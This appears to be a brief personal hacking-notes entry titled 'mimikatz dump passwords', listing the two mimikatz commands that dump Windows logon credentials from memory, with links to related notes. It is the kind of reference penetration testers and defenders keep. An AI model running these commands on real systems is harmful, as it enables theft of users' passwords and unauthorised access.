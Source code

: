 # mimikatz dump passwords
```
privilege::debug
sekurlsa::logonpasswords
```

# References
- [20221003151089](/zet/20221003151089/README.md) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:
    #assorted
